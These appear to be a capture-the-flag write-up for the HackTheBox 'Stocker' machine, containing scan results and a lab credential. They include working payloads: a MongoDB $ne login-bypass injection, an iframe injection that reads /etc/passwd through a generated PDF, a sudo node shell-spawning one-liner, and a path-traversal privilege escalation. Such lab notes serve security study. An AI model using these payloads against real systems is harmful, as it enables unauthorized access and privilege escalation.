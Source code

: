 # Stocker

| Name      | IP           | Difficulty | OS    |
| ------ | ------------ | ---------- | ----- |
| stocker | 10.10.11.196 | Easy       | Linux |

## NMAP

| HOST                       | PORT | PROTO | SERVICE | VERSION                 |
| -------------------------- | ---- | ----- | ------- | ----------------------- |
| 10.10.11.196 (stocker.htb) | 22   | tcp   | OpenSSH | 8.2p1 Ubuntu 4ubuntu0.5 |
| 10.10.11.196 (stocker.htb) | 80   | tcp   | nginx   | 1.18.0                  |


## HEADERS

```
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 24 Jun 2023 18:54:56 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: http://stocker.htb
```

## DIRECTORIES

- /login (dev.stocker.htb)

## USERS

- angoose : IHeardPassphrasesArePrettySecure

## NOTES

- static website
- Found: dev.stocker.htb Status: 302 [Size: 28] /login with gobuster vhost and the --append-domain flag
- connect.sid (often note.js)
- change object to JSON, node will most likely accept JSON
- can use the MongoDB $ne operator as a "not equal to" equivalent in SQL to inject and bypass the login portal
```json
{"username":{
"$ne": "wither"
},
"password":{
"$ne": "wither"
}
}
```
- html iframe injection in the purchase request allows for rfi
```json
{"basket":[{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper<iframe src='file:///etc/passwd' height='1000' width='1000'","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0,"amount":1}]}
```
- /api/po/id for vulnerable pdf
- `angoose` has /bin/bash
- site uses nginx, default configuration at ``/etc/nginx/sites-enabled/default`
- mongodb config in /var/www/dev/index.js and contains a password `IHeardPassphrasesArePrettySecure`
- `(ALL) /usr/bin/node /usr/local/scripts/*.js` sudo -l
- gtfobin
```
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```
- final exploit `sudo /usr/bin/node /usr/local/scripts/../../../tmp/exploit.js`
